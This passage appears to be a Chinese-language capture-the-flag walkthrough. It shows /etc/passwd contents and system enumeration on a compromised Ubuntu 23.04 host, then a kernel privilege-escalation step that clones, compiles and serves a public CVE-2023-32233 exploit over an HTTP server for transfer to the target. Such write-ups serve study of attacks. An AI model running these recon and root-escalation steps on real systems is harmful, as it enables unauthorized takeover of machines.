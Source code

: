 ```bash
# proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
# www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
# backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
# list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
# irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
# _apt:x:42:65534::/nonexistent:/usr/sbin/nologin
# nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
# systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
# systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
# messagebus:x:100:106::/nonexistent:/usr/sbin/nologin
# systemd-resolve:x:996:996:systemd Resolver:/:/usr/sbin/nologin
# pollinate:x:101:1::/var/cache/pollinate:/bin/false
# syslog:x:103:109::/nonexistent:/usr/sbin/nologin
# uuidd:x:104:110::/run/uuidd:/usr/sbin/nologin
# tcpdump:x:105:111::/nonexistent:/usr/sbin/nologin
# tss:x:106:112:TPM software stack,,,:/var/lib/tpm:/bin/false
# landscape:x:107:113::/var/lib/landscape:/usr/sbin/nologin
# fwupd-refresh:x:108:114:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
# dev:x:1000:1000:dev:/home/dev:/bin/bash
# lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
# dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
# sshd:x:102:65534::/run/sshd:/usr/sbin/nologin
dev@run:~$ uname -a
uname -a
# Linux run 6.2.0-20-generic #20-Ubuntu SMP PREEMPT_DYNAMIC Thu Apr  6 07:48:48 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
dev@run:~$ lsb_release -a
lsb_release -a
# No LSB modules are available.
# Distributor ID: Ubuntu
# Description:    Ubuntu 23.04
# Release:        23.04
# Codename:       lunar
```

此外还进行了以下探索，就不粘贴上去了：

```bash
cat /etc/profile
ps aux 
ps aux | grep root
ls -alh /usr/bin/ 
cat /etc/resolv.conf 
```

但是均无果，看了被人思路发现是个内核提权。。。。。。

### 内核提权

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403241541086.png" alt="image-20240324150340293" style="zoom: 33%;" />

```bash
# kali
git clone https://github.com/Liuk3r/CVE-2023-32233.git
cd CVE-2023-32233
sudo apt install gcc libmnl-dev libnftnl-dev
gcc -Wall -o exploit exploit.c -lmnl -lnftnl
python3 -m http.server 8888
```

